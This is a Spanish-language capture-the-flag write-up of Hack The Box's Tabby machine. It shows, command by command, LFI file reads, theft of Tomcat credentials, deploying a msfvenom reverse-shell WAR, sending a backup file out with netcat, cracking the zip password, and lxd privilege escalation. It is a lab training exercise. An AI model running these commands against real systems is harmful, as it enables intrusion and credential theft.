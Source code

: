 ```yaml
---
title: HackTheBox - Tabby
categories: [Linux]
tags: [HackTheBox, eJPT, Linux]
---
```


<img src="/assets/HTB/Tabby/tabby.png">

En este post voy a explicar como resolver la máquina Tabby de [Hack The Box](https://app.hackthebox.com/machines/259), en la cual vamos a estar tocando un LFI para obtener credenciales y así poder subir un archivo malicioso y para la escalada vamos a estar abusando de una vulnerabilidad del grupo ```lxd```.

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.25s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como vemos, la página tiene los puertos 22 (SSH), 80 (HTTP) y 8080(HTTP - Tomcat) abiertos.

## Enumeración
Al ingresar al servidor web que está corriendo en el puerto 80, vemos esto.

<img src="/assets/HTB/Tabby/tabby-index-80.png">

Al analizar la página web, vemos que el botón ```News``` nos redirige a ```megahosting.htb``` el cual agregamos a nuestro archivo ```/etc/hosts```.

```
$ echo "10.10.10.194    megahosting.htb" >> /etc/hosts
```

Regresamos nuevamente a la página y vemos que en la URL hay un parámetro llamado ```file```, el cual apunta al archivo ```statement```, posiblemente tenga una vulnerabilidad de ```LFI```.

```
$ curl -s http://megahosting.htb/news.php?file=../../../../etc/passwd | grep "sh$"

root:x:0:0:root:/root:/bin/bash
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

Si leemos el archivo '''/etc/passwd''' de la máquina víctima, descubrimos el usuario '''ash'''.

Al ingresar al servidor web que está corriendo en el puerto ```8080```, vemos esto.

<img src="/assets/HTB/Tabby/tabby-index-8080.png">

Analizando la página, vemos que nos habla de un archivo llamado ```tomcat-users.xml```, si lo intentamos visualizar mediante el ```LFi```, no vamos a ver nada, ya que no se encuentra en esa ruta, pero si buscamos rutas alternativas en las cuales se encuentre ese archivo, encontraremos la siguiente ```/usr/share/tomcat9/etc/tomcat-users.xml```

```
$ curl -s http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml | tail -n 2

<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

Si usamos las credenciales obtenidas para logearnos en la ruta ```/manager/html```, nos aparecerá lo siguiente.

<img src="/assets/HTB/Tabby/login-manager-html.png">

Probemos listar las aplicaciones existentes desde terminal haciendo uso de curl y las credenciales anteriormente obtenidas.

```
$ curl -s -u 'tomcat:$3cureP4s5w0rd123!' -X GET 'http://10.10.10.194:8080/manager/text/list'

OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

Como vemos, podemos listar las ```aplicaciones```, intentemos subir un archivo ```.war``` el cual se encargue de mandarnos una ```reverse shell``` a nuestro equipo, para crearlo vamos a hacer uso de msfvenom.

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 -f war -o reverse.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes
Saved as: reverse.war

$ curl -s -u 'tomcat:$3cureP4s5w0rd123!' 'http://10.10.10.194:8080/manager/text/deploy?path=/reverse' --upload-file reverse.war
OK - Deployed application at context path [/reverse]
```

## Reverse Shell

Para ganar acceso a la máquina, nos mandaremos la Reverse Shell haciendo una petición al archivo recién subido.

```
$ curl -X GET 'http://10.10.10.194:8080/reverse/'
```

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 49110
script /dev/null -c bash
Script started, file is /dev/null
tomcat@tabby:/var/lib/tomcat9$ ^Z
[1]  + 4675 suspended  sudo nc -lvnp 443

$ stty raw -echo; fg
[1]  + 4675 continued  sudo nc -lvnp 443
                                        reset xterm

tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm
tomcat@tabby:/var/lib/tomcat9$ export SHELL=bash
tomcat@tabby:/var/lib/tomcat9$ stty rows 53 columns 235
```

##  Enumeración del sistema
Enumerando directorios, encontré un archivo comprimido y protegido por contraseña en la ruta ```/var/www/html/files```, el cual se llama ```16162020_backup.zip``` y le pertenece al usuario ```ash```, vamos a traerlo a nuestra máquina para intentar extraer la contraseña mediante un ataque de fuerza bruta haciendo uso de ```zip2john``` y ```john```.


```
$ tomcat@tabby:/var/www/html/files$ cat 16162020_backup.zip | nc 10.10.14.9 6969
```

```
$ nc -lvnp 6969 > 16162020_backup.zip
listening on [any] 6969 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 50784
^C

$ ls
16162020_backup.zip  nmap  reverse.war
```

```
$ zip2john 16162020_backup.zip > hash &>/dev/null
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:00 DONE (2022-12-10 22:00) 1.315g/s 13635Kp/s 13635Kc/s 13635KC/s adornadis..adhi1411
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Al descomprimir el archivo con la contraseña recién obtenida, veremos que no hay gran cosa, pero podemos probar si hay ```reutilización de contraseñas```.

```
tomcat@tabby:/var/www/html/files$ su ash
Password: admin@it
ash@tabby:/var/www/html/files$
```

Al poner el comando ```id```, veremos que estamos en el grupo ```lxd```.

```
ash@tabby:/var/www/html/files$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
## Escalada de privilegios
Si buscamos con la herramienta searchsploit vulnerabilidades para el grupo ```lxd```, veremos que nos lanzara un script creado por S4vitar y Vowkin.

```
$ searchsploit lxd
------------------------------------------------------------------------------
Exploit Title                                          |  Path
------------------------------------------------------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation              | linux/local/46978.sh
------------------------------------------------------------------------------

$ searchsploit -m linux/local/46978.sh
Exploit: Ubuntu 18.04 - 'lxd' Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46978
     Path: /usr/share/exploitdb/exploits/linux/local/46978.sh
    Codes: N/A
 Verified: False
File Type: Bourne-Again shell script, Unicode text, UTF-8 text executable

$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
$ chmod +x build-alpine
$ ./build-alpine
$ python3 -m http.server 6969
Serving HTTP on 0.0.0.0 port 6969 (http://0.0.0.0:6969/) ...
```

```
ash@tabby:/var/www/html/files$ cd /dev/shm
ash@tabby:/dev/shm$ curl -s http://10.10.14.9:6969/46978.sh -o lxd.sh
ash@tabby:/dev/shm$ curl http://10.10.14.9:6969/alpine-v3.17-x86_64-20221210_2249.tar.gz -o alpine.tar.gz
ash@tabby:/dev/shm$ chmod +x lxd.sh

ash@tabby:/dev/shm$ ./lxd.sh -f alpine-v3.17-x86_64-20221210_2249.tar.gz
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| alpine | 761ea182e2d3 | no     | alpine v3.17 (20221210_22:49) | x86_64       | CONTAINER | 3.60MB | Dec 11, 2022 at 2:55am (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # cd /mnt/root/root/
~ # cat root.txt
36b7b242c4b5a18da843964094ee37ad
```